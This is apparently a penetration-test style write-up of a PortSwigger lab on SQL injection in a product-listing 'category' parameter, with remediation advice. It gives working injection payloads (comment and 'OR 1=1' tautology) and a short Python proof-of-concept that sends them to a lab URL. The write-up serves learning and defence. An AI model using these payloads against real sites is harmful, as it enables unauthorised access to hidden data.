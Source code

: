 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

---

## Executive Summary

During a controlled assessment of the target e-commerce application, we identified a **SQL injection vulnerability in the `WHERE` clause** of the product-listing endpoint. By manipulating the `category` URL parameter, we were able to bypass the application’s release filter and ultimately enumerate the entire `products` table—including items the business intended to keep hidden. Left unresolved, an attacker could extract sensitive business data or pivot to more destructive actions (e.g., authentication bypass, data tampering).

---

## Technical Details

| Item                        | Detail                                                                                                             |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| **Vulnerability class**     | SQL Injection – Boolean-based (string termination + inline comment)                                                |
| **Affected parameter**      | `category` (GET)                                                                                                   |
| **Database flavor**         | MySQL (confirmed by syntax behaviour)                                                                              |
| **Lab reference**           | PortSwigger Web Security Academy – *SQL injection vulnerability in WHERE clause allowing retrieval of hidden data* |
| **Difficulty rating (lab)** | Apprentice                                                                                                         |
| **Proof-of-concept script** | `script.py` (Python 3, `requests` library)                                                                         |

---

### 1  Understanding the Baseline Query

The application constructs its catalogue page with the following server-side query:

```sql
SELECT * 
FROM   products 
WHERE  category = '<PARAM>' 
  AND  released  = 1;
```

* `category` is **unsafely concatenated** from the URL.
* `released=1` is intended to hide unreleased items.

---

### 2  Establishing Normal Behaviour

**Action** – Browse to `/?category=Pets`
**Observation** – Page renders **three** pet-related products (expected baseline).

---

### 3  Neutralising the `released` Filter (Inline Comment)

**Payload** – `Pets'--`
**URL-encoded** – `Pets%27--`

Resulting query:

```sql
SELECT * 
FROM   products 
WHERE  category = 'Pets'--' AND released = 1;
```

* Everything after `--` is a comment.
* The stray closing quote (`'`) is safely ignored inside the comment.

**Outcome** – **Four** products returned ⇒ filter successfully bypassed.

---

### 4  Enumerating All Products (Boolean 1 = 1)

**Payload** – `Pets' OR 1=1--`
**URL-encoded** – `Pets%27%20OR%201%3D1--`

Injected query:

```sql
SELECT * 
FROM   products 
WHERE  category = 'Pets' OR 1=1--' AND released = 1;
```

* `1=1` is always true, so the predicate matches every row.
* `released` condition remains commented.

**Outcome** – **All** products displayed, including unreleased SKUs.

---

### 5  Automated Proof of Concept

```python
"""
script.py – PoC for SQLi in `category` parameter
"""
import requests, urllib.parse

LAB_URL = "https://<lab-id>.web-security-academy.net"
s = requests.Session()

payload = "Pets' OR 1=1--"
encoded = urllib.parse.quote(payload, safe='')
r = s.get(f"{LAB_URL}/?category={encoded}", timeout=10)

print(f"HTTP {r.status_code}")
print(f"Returned products: {r.text.count('<li class=\"product\">')}")
```

Running the script confirms the manual findings: the response contains every product row.

---

## Impact

| Risk                                 | Explanation                                                                                                                             |
| ------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------- |
| **Sensitive data disclosure**        | Internal-only SKUs, future product lines, or pricing strategies could leak.                                                             |
| **Privilege escalation vector**      | SQLi often allows UNION-based exfiltration, credential dumping, or even SSH key harvesting if `LOAD_FILE`/`INTO OUTFILE` are permitted. |
| **Regulatory & reputational damage** | Exposure of confidential catalogue data can lead to competitive disadvantage and potential violation of disclosure obligations.         |

Likelihood: **High**  Impact: **Medium–High**  Overall risk: **High**

---

## Recommended Remediation

1. **Use parameterised queries / prepared statements** for *all* SQL interactions.
2. Implement **server-side allow-lists** (e.g., validate `category` against canonical IDs rather than free text).
3. Employ a **Web Application Firewall (WAF)** rule set tuned for SQLi signatures as a compensating control.
4. **Regression test** using automated scanners plus manual verification before deployment.

> *After remediation, re-run the PoC to confirm the injected payloads return identical product counts to the baseline.*

---

## Conclusion

The identified SQL injection stems from direct string concatenation of user input in the `WHERE` clause. By adding a comment marker (`--`) and a tautology (`OR 1=1`), we demonstrated full disclosure of hidden product data and showed how an attacker could easily expand this foothold. Implementing prepared statements and rigorous input validation will eliminate this vulnerability.

Please reach out if further clarification or live demonstration is required.

---
